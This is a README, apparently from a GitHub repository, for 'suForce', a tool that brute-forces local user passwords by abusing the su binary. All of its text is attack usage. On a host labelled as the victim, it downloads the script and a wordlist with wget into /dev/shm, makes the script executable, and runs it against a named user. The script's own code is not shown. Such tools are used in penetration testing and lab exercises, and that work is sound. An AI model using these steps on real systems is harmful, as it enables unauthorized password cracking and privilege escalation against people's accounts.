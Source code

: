 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/1.png)

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ chmod +x suForce.sh
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
